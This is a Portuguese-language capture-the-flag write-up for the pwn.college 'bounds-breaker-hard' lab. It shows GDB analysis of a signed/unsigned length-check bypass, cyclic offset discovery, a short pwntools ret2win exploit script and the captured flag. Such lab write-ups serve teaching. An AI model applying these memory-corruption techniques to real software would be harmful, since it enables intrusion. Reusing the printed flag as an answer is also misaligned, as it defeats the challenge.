









# pwn.college — Bounds Breaker Hard (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Signed/unsigned integer confusion · `jle` signed comparison bypass · `read` unsigned size exploit · ret2win · Cyclic pattern offset discovery · GDB dynamic analysis

---

## Descrição do Desafio

O desafio `bounds-breaker-hard` é a versão difícil do [bounds-breaker-easy](bounds-breaker-easy.md). A vulnerabilidade é idêntica — confusão signed/unsigned na verificação do tamanho do payload — mas desta vez o binário **não imprime o layout da stack**. Toda a informação necessária (endereços das funções, offset até o return address) precisa ser descoberta via GDB.

O fluxo do programa é `main → challenge → main`. A função `win` existe no binário mas **nunca é chamada diretamente** — é necessário fazer um ret2win sobrescrevendo o return address de `challenge` para redirecionar a execução.

---

## Reconhecimento com GDB

### Endereços das funções

O primeiro passo foi descobrir os endereços fixos das funções relevantes. Como o binário não tem PIE, esses endereços são os mesmos em todas as execuções:



```
win       → 0x0000000000401704
challenge → 0x000000000040180b
main      → 0x0000000000401921
```

### A verificação do tamanho — `cmp` + `jle`

Com um breakpoint em `challenge` e `disas challenge`, identifiquei a mesma vulnerabilidade do desafio easy:



```asm
call  __isoc99_scanf@plt       ; lê o tamanho do payload
mov   eax, DWORD PTR [rbp-0x44]
cmp   eax, 0x2e                ; compara com 46 (0x2e)
jle   challenge+162            ; se <= 46, pula o exit
```

Neste desafio o limite é **46 bytes** (em vez de 100 do easy). A instrução `jle` é **signed** — interpreta o valor como inteiro com sinal. Enviando `-1`, a condição `-1 <= 46` é verdadeira e o programa continua sem chamar `exit`.

### O `read` com tamanho unsigned

Após passar na verificação, o valor enviado é usado como `rdx` no `read`:



```
rdi = 0x0                    → stdin
rsi = 0x7fff6d624760         → endereço do início do buffer
rdx = 0xffffffff             → 4.294.967.295 bytes
```

O `read` interpreta `rdx` como **unsigned**. O valor `-1` em complemento de dois é `0xffffffff` — o maior valor unsigned de 32 bits. O `read` aceita efetivamente um payload ilimitado.

---

## Descobrindo o Offset com Cyclic

Para descobrir o offset exato entre o início do buffer e o return address, enviei um padrão cyclic como payload.

**Antes do cyclic** — estado inicial da stack após o início do input:



O return address de `challenge` para `main` estava visível em `0x7fff6d6247a8` com o valor `0x00000000004019e7`.

**Após enviar o cyclic** — stack sobrescrita:



O valor no endereço do return address foi sobrescrito com `0x6161617461616173` — parte do padrão cyclic.

### Calculando o offset

Com o valor `0x6161617461616173` encontrado no return address:



```python
cyclic_find(0x6161617461616173, n=8)  →  72
```

O offset é **72 bytes** — confirmado também por `x/gx $rbp+0x8` no GDB, que mostrou o mesmo valor cyclic.

---

## Por que o `continue` no GDB aponta para `0x401920`?

Ao dar `continue` após o cyclic, o GDB reportou:



```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401920 in challenge ()
```

Isso pode causar confusão — por que o GDB mostra `0x401920` e não `0x6161617461616173`?

O endereço `0x6161617461616173` é parte do padrão cyclic e **não está mapeado na memória do processo**. Quando o processador executa `ret` e carrega esse valor no `rip`, ele tenta buscar a próxima instrução naquele endereço inválido. O kernel detecta o acesso a uma região não mapeada e gera um **SIGSEGV antes mesmo de executar qualquer instrução no endereço inválido**. O GDB então reporta o endereço da instrução `ret` dentro de `challenge` — a última instrução válida executada — e não o endereço inválido para onde tentou saltar. O exploit está correto; o GDB apenas mostra onde a falha foi detectada, não onde o programa tentou ir.

---

## O Exploit Final

Com todas as informações em mãos:

- **Bypass do limite:** enviar `-1` como tamanho do payload
- **Offset até o return address:** 72 bytes
- **Endereço de `win`:** `0x0000000000401704` (fixo, sem PIE)



```python
from pwn import *

PATH = "/challenge/bounds-breaker-hard"

p = process(PATH)

p.sendline("-1")
p.sendline(b"A" * 72 + p64(0x0000000000401704))
p.interactive()
```

Quando `challenge()` executa `ret`, em vez de retornar para `main`, o processador carrega `0x401704` no `rip` e salta direto para `win`.

---

## Resultado Final



```
Payload size: Send your payload (up to -1 bytes)!
Goodbye!
You win! Here is your flag:
pwn.college{gozn6rh0ZCVULW2v2XIJo8QeW_3.dZTOywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. GDB → win em 0x401704, sem PIE → endereço fixo
2. disas challenge → cmp eax, 0x2e + jle → limite de 46 bytes (signed)
3. Enviar -1 → jle signed: -1 <= 46 ✅ → passa na verificação
4. read recebe rdx = 0xffffffff (unsigned) → payload ilimitado
5. cyclic(500) → return address sobrescrito com padrão cyclic
6. cyclic_find → offset = 72 bytes
7. 72 As + p64(0x401704) → ret2win → flag obtida
```

---

## Comparação entre Easy e Hard

| | bounds-breaker-easy | bounds-breaker-hard |
|---|---|---|
| Stack impressa pelo binário | ✅ Sim | ❌ Não |
| Limite de bytes | 100 (`0x64`) | 46 (`0x2e`) |
| Offset até return address | Informado pelo binário (120) | GDB + cyclic (72) |
| Endereço de `win` | Informado pelo binário | GDB (`0x401704`) |
| PIE | ❌ No PIE | ❌ No PIE |
| Técnica de bypass | `-1` signed/unsigned | `-1` signed/unsigned |
